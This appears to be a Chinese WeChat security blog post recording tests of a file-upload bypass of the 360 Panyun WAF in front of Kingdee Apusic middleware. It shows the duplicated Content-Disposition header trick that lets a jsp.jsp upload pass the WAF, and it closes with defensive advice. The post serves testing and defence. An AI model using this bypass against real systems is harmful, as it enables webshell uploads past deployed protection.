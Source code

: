 #  文件上传绕过360磐云WAF

原创 罗锦海 [ OneMoreThink ](javascript:void\(0\);)

**OneMoreThink** ![]()

微信号 OneMoreThinkkk

功能介绍 网络安全运营顾问。昨日所思绝非今日立场。

____

___发表于_

收录于合集 #安全技术 6个

## 测试环境

  1. 360磐云WAF
  2. 金蝶apusic中间件

## 测试方法

  1. 重复的Content-Disposition请求头
  2. 异常的form-data参数名

## 规律总结

  1. 360磐云WAF：检查所有Content-Disposition请求头，只要有一个请求头存在异常的form-data参数名，就退出检查，将流量放行给后端。
  2. 金蝶apusic中间件：只使用第一个Content-Disposition请求头，只有当第一个请求头是正确的form-data参数名时，才能正常处理业务，完成文件上传。

## 测试现象

### 单写

 **1、正常=WAF拦截**

    
    
    Content-Disposition: form-data; name="file"; filename="jsp.jsp"  
    Content-Type: image/jpeg  
    

![]()

 **2、异常=上传失败500**

    
    
    Content-Disposition: aform-data; name="file"; filename="jsp.jsp"  
    Content-Type: image/jpeg  
    

![]()

### 双写

 **3、正常,正常=WAF拦截**

    
    
    Content-Disposition: form-data; name="file"; filename="jsp.jsp"  
    Content-Type: image/jpeg  
    Content-Disposition: form-data; name="file"; filename="jsp.jsp"  
    Content-Type: image/jpeg  
    

![]()

 **4、正常,异常=上传成功200**

    
    
    Content-Disposition: form-data; name="file"; filename="jsp.jsp"  
    Content-Type: image/jpeg  
    Content-Disposition: aform-data; name="file"; filename="jsp.jsp"  
    Content-Type: image/jpeg  
    

![]()

 **5、异常,正常=上传失败500**

![]()

 **6、异常,异常=上传失败500**

![]()

##  安全建议

  1. 对甲方：应持续使用开源或商业的BAS产品，验证安全防护的有效性。
  2. 对乙方：WAF的检查逻辑，应与中间件的处理逻辑一致，以确保WAF能防护中间件。

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

